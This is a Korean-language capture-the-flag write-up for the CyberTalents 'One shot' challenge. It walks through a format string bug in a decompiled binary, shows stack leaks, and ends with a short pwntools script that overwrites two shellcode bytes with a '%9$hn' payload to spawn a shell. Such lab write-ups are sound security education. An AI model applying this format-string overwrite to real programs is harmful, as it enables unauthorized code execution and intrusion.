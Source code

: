 ```yaml
---
title: "CyberTalents One shot"
date: 2020-1-8
tags: [CyberTalents]
categories: [CyberTalents]
---
```


메인은 간단하게 addr은 mmap으로 `0xF77FF000` 주소에 값을 메모리 매핑해주고 그 주소에서 mprotect로 권한을 준다. 그리고 `strncpy` 함수로 shellcode를 addr에 shellcode 길이만큼 복사해준다. 

근데 addr 참조한 곳에 첫번째를 1로 바꾸고 다음 주소를 2로 바꿔준다.

그리고 밑에서는 s변수에 입력받고 `pritnf(&s);` 해주는데 이곳에서 fsb가 터진다. 

밑에서 이 addr을 실행해주는데 shellcode를 보면 쉘을 띄워주는 쉘코드가 들어있따.

`*addr =1 ` , `*addr[1] = 2` 이런식으로 되어있어서 shellcode가 실행이 안된다.

그래서 이곳을 fsb를 이용해서 원래 쉘코드로 바꿔주면 된다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // eax
  _BYTE *addr; // [esp+14h] [ebp-114h]
  int v6; // [esp+18h] [ebp-110h]
  char s; // [esp+1Ch] [ebp-10Ch]
  unsigned int v8; // [esp+11Ch] [ebp-Ch]

  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  addr = mmap(0xF77FF000, 0x20u, 0, 34, 0, 0);
  v6 = mprotect(addr, 32u, 7);
  if ( addr == -1 || v6 == -1 )
  {
    puts("mmap() or mprotect() failed. Please contact admin.");
    exit(-1);
  }
  v3 = strlen(shellcode);
  strncpy(addr, shellcode, v3);
  *addr = 1;
  addr[1] = 2;
  printf("you have only one shot: ");
  fgets(&s, 255, stdin);
  printf(&s);
  (addr)();
  return 0;
}
```

shellcode는 이렇게 박혀있다.

![](https://user-images.githubusercontent.com/32904385/71976142-f3fa4f00-3258-11ea-8393-d89960dd8f19.png)

strncpy 전에 보면 아까 매핑했던 주소에 `0xf77ff000` 이렇게 매핑되어있는 것을 볼 수 있다.

![](https://user-images.githubusercontent.com/32904385/71976145-f492e580-3258-11ea-8001-5b293be0ecb0.png)

그리고 strncpy 이후 보면 이런식으로 shellcode가 들어간 것을 볼 수 있다.

![](https://user-images.githubusercontent.com/32904385/71976146-f5c41280-3258-11ea-9284-41e7f301f8a4.png)

`*addr = 1` , `*addr[1] = 2` 을 실행한 후 주소에 매핑된 값을 보면 이렇게 1과2가 들어간게 보인다.

![](https://user-images.githubusercontent.com/32904385/71976148-f65ca900-3258-11ea-965f-e460b3678a83.png)

fgets에서 `AAAA %p %p %p %p %p %p %p %p %p %p %p %p` 이렇게 넣으면 `printf(&s)` 에서 `AAAA 0xff 0xf7fbf5a0 (nil) 0xffffd2c4 0xffffd2c0 0x3 0xffffd444 0xf7ffd000 0xf77ff000 (nil) 0x41414141`

이렇게 출력되는데 buf는 offset 11 (esp + 44)위치에 있고 offset 9 (esp + 36)를 보면 `0xf77ff000` 가 있다. 

이 주소에 값을 덮어쓰면 shellcode를 실행할때 제대로 쉘을 띄울 수 있을 것이다. 

![](https://user-images.githubusercontent.com/32904385/71976150-f78dd600-3258-11ea-9af3-67fa07871348.png)

그냥 gdb로 잘 보면 풀리는 문제였다 ㅎㅎ...

> exploit.py

```python
from pwn import *

e = ELF('./oneshot')
p = process('./oneshot')
#p = remote('35.222.174.178',31339)

payload = '%{}c'.format(0xc031)
payload += '%9$hn'

p.sendlineafter(':',payload)

p.interactive()
```

